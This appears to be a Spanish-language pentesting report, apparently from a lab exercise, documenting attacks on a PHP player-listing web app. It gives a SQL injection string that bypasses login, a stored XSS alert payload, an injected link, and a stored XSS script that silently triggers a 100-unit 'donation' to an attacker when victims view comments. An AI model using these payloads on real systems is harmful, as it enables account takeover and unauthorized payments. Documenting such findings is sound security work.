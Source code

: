 # Informe Pentesting

# SQLi
En el campo "User" del formulario de inicio de sesión de la página `list_players.php`, la consulta SQL que se ejecuta es vulnerable a un ataque de inyección SQL. Por ejemplo, si usamos la doble comilla `"`: 

![Imagen 1](/img/1.png)

Pulsamos en login y nos muestra el error obtenido: 
![Imagen 2](/img/2.png)

El código actual ejecuta la consulta SQL de la siguiente manera:
```php
SELECT userId, password FROM users WHERE username = 'user_input' AND password = 'password_input'
```


---

Para poder conocer la contraseña y entrar en la aplicación web, usaremos el diccionario que nos proporcionaron, haciendo un ataque de diccionario. Este ataque consiste en probar diversas combinaciones de contraseñas usando la inyección SQL. Para realizar este ataque usaremos el siguiente payload en el campo `User`:

```
" OR password="1234" --
```

![Imagen 3](/img/3.png)

Así podemos comprobar como hemos iniciado sesión en la página con una cuenta cuya contraseña es 1234:
![Imagen 4](/img/4.png)


Para comprobar el nombre del usuario con el que hemos iniciado sesión traté de buscar algún dato en las cookies, pero no lo mostraba:
![Imagen 5](/img/5.png)

Para saber el nombre finalmente lo que hice fue hacer un comentario en uno de los jugadores, al hacer el comentario y mostrarlo, podíamos ver el nombre del usuario que introdujo dicho comentario.

Estos son los comentarios que había antes de realizar el mío:

![Imagen 6](/img/6.png)

<br>
El comentario que yo realizado:

![Imagen 7](/img/7.png)

<br>
Los comentarios actualizados donde podemos ver el nombre del usuario:

![Imagen 8](/img/8.png)

Se puede comprobar que el nombre de usuario es **luis**, es decir, podemos iniciar sesión con el nombre luis y la contraseña que usamos con anterioridad.

<br>

---

# XSS
En el formulario de comentarios de `add_comment.php`, se puede insertar código JavaScript malicioso en el campo de texto del comentario, lo que se ejecutará cuando otro usuario visualice el comentario.

**Payload Utilizado:**
```html
<script>alert('¡Vulnerabilidad XSS!');</script>
```

<br>

Inyectamos el payload en el comentario:

![Imagen 9](/img/9.png)

Una vez ponemos el comentario debemos pulsar en `show/add comments`:

![Imagen 10](/img/10.png)

Nos debe mostrar una alerta como la siguiente:

![Imagen 11](/img/11.png)

Y si vemos los comentarios, este saldrá en blanco:

![Imagen 12](/img/12.png)

<br>

---


## Otras páginas afectadas por XSS
### - `insert_player.php`

Se descubrió una vulnerabilidad en el campo team:

Esta es la captura antes de la inyección:

![Imagen 13](/img/13.png)

El **payload utilizado** es el siguiente:

```html
<br>
<br>
<br>
<a href="http://web.pagos/donate.php?amount=100&receiver=attacker">Profile</a>
```
![Imagen 14](/img/14.png)

Al darle a `Send` nos aparecerá el botón en el recuadro:

![Imagen 15](/img/15.png)
<br>

---

### - `buscador.html`
El objetivo era hacer que la donación se realizara automáticamente sin que el usuario tuviera que hacer clic en el botón.

Para ello se introujo un payload en un comentario, de manera que cuando cualquier usuario entrara en los comentarios, este payload se activaría, abriendo la página de donación en segundo plano. Por lo que esta donación se realizaría automáticamente sin que el propio usuario se diera cuenta.

El payload utilizado es el siguiente:
```php
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://web.pagos/donate.php?amount=100&receiver=attacker", true);
  xhr.send();
</script>
```

Lo insertamos en un comentario:

![Imagen 16](/img/16.png)

Y cuando pinchamos en comentarios, se nos abre la página de normal, pero si vemos en inspeccionar, se puede comprobar como se ha ejecutado el script:

![Imagen 17](/img/17.png)